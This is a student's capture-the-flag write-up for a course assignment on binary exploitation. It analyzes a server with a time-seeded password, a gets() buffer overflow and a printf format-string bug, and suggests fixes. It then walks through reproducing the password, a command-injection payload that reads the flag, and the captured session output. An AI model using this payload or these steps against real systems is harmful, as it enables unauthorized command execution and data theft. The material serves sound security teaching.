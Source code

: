 # Writeup 8 - Binaries II

Name: Marco Roxas
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement: Marco Roxas

## Assignment Writeup

### Part 1 (100 pts)
Answer the following questions regarding the server executable (for which source is provided).

1. How is the per-session administrator password generated? Are there any inherent weaknesses in this implementation?

Each password character is randomly generated by using the rand() function to produce a printable character.

Yes, the rand() function is seeded with time(0) which causes it to generate the same sequence of numbers within each current second.

2. Describe two vulnerabilities in this program. Provide specific line numbers and classifications of the vulnerability. Explain potential ramifications as well as ways to avoid these vulnerabilities when writing code.

One vulnerability is on line 68, gets(buff) introduces a buffer-overflow vulnerability. This allows the attacker to overwrite the neighboring char commands[64] array with a command of the attacker's choosing (eg, ls; cat flag.txt). To avoid this vulnerability fgets() can be used to limit the characters read into the buffer.

Another is a format-string vulnerability printf(output) on line 46. This allows the attacker to view memory contents by placing %k (k converts to x) preceded by a similarly-ciphered memory address. To prevent these a proper format string is used for printf().

3. What is the flag?

`CMSC389R-{expl017-2-w1n}`

4. Describe the process you followed to obtain the flag: vulnerabilities exploited, your inputs to the server in a human-readable format, etc. If you create any helper code please include it.

server.c was pared down and saved in try.c to facilite viewing the generated password. But initially the password it generates while running locally doesn't match the remote server password for some reason, perhaps because of time differences.

Running nmap on the host doesn't reveal anything (looks to be protected well), but in investigating whether the time is off by a few seconds on the server, port 13 (daytime server port) was contacted on the server using nc, with no response. But trying port 22 (the ssh port) revealed what could be used to identify the server version:

~~~~
$ nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 22
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3

Protocol mismatch.
~~~~

A web search for the above string showed Ubuntu 18.04.3. Running the ./server binary on the same Ubuntu version was tried, and that resulted in a matching password with the remote server. Thereafter, the buffer overflow on line 68 was exploited with a string used for command injection.

The payload string used is the first line shown here:

~~~~
whoami;ls -l;cat *;ps -aux;find; whoami;ls -l;cat *;ps -aux;find;
         1111111111222222222233333333334444444444555555555566666666667777777777
1234567890123456789012345678901234567890123456789012345678901234567890123456789
                                                               ^
~~~~

The idea was to fill in the buffer and have the match succeed since it's repeated in the list of valid commands.

An abbreviated session transcript is shown below with inputs manually typed in.

~~~~
$ ./try && nc ec2-18-222-89-163.us-east-2.compute.amazonaws.com 1337
ddW;<7D@RjCL-DjA
Choose an option:
1. encrypt
2. decrypt
3. authenticate
4. execute command
0. exit
> 3
Please provide admin password: 
ddW;<7D@RjCL-DjA
password successful, privilege elevated
Choose an option:
1. encrypt
2. decrypt
3. authenticate
4. execute command
0. exit
> 4
Admin, provide a command to execute: whoami;ls -l;cat *;ps -aux;find; whoami;ls -l;cat *;ps -aux;find;
Executing "whoami;ls -l;cat *;ps -aux;find;"
sh: 1: whoami: not found
total 44
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 bin
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 dev
-rwxr----- 1 0 1000    25 Oct 28 04:29 flag
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib32
drwxr-x--- 1 0 1000  4096 Oct 28 05:04 lib64
-rwxr-x--- 1 0 1000 19716 Oct 28 05:11 server
cat: bin: Is a directory
cat: dev: Is a directory
CMSC389R-{expl017-2-w1n}
cat: lib: Is a directory
cat: lib32: Is a directory
cat: lib64: Is a directory
....
~~~~
